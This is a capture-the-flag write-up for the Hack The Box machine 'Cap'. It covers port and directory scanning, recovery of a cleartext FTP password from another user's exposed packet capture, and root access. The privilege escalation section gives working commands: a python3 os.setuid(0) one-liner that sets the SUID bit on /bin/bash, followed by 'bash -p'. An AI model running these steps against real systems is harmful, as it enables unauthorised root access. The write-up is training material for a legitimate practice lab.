

# Enumeration
Example of what is seen on the site. Appears to be nestat, IP Config, and some form of PCAP analysis pages via the menu. We also see that we're signed in as 'Nathan'.


## Nmap Scan:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 15:44 MDT
Nmap scan report for cap.htb (10.129.88.224)
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

---clipped---
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.22 seconds
```
## WappAlyzer

## GoBuster
```bash
└─$ cat gobuster.txt~
/data (Status: 302)
/ip (Status: 200)
/netstat (Status: 200)
/capture (Status: 302)
```
## Nikto
```bash
└─# nikto -host 10.129.84.196            
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.84.196
+ Target Hostname:    10.129.84.196
+ Target Port:        80
+ Start Time:         2021-06-06 20:17:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, OPTIONS, GET
+ 7916 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-06-06 20:29:41 (GMT-6) (759 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

- No Public Vulnerabilities published for VSFTP 3.0.3
- GoBuster identified a few paths, most of these readily available just by navigating around the site (no hidden admin or anything like that).

Every time I generate a new pcap, I notice that /data/# increments by 1.

I do some testing by sending it pings, attempting to connect to ftp and ssh, etc and inspect the pCAPs hoping to glean some relevant info. Since I see this incrementation I check to see if maybe I can investigate historical PCAPs, e.g. maybe some administrative tasks taking place before I even connected. We start at 0 and within, sure enough, is a clear text connection established to the FTP server including password:  
  


Connect to SSH with the above credentials and grab the user flag.

### Privilege Escalation
```bash
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
nathan@cap:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

/bin/bash is what I want to run as root, looks like someone set the SUID bit on it already:
```bash
nathan@cap:~$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```

I could've skipped to running /bin/bash -p, but reset the machine to make sure this was the intended escalation path.

I know a way to set the SUID bit via python (thanks to the cyber mentor and tiberius' linux privelege escalation courses) and thankfully python3 is on this box
```bash
nathan@cap:~$ python3 --version
Python 3.8.5
nathan@cap:~$
```

Use python3 to set the SUID bit on /bin/bash
```bash
python3 -c 'import os; os.setuid(0);  os.system("chmod +s /bin/bash")'
```

Execute Bin/Bash elevated:
```bash
nathan@cap:~$ /bin/bash -p
bash-5.0# whoami
root
```

CD'd up to /root and cat'd out the root.txt
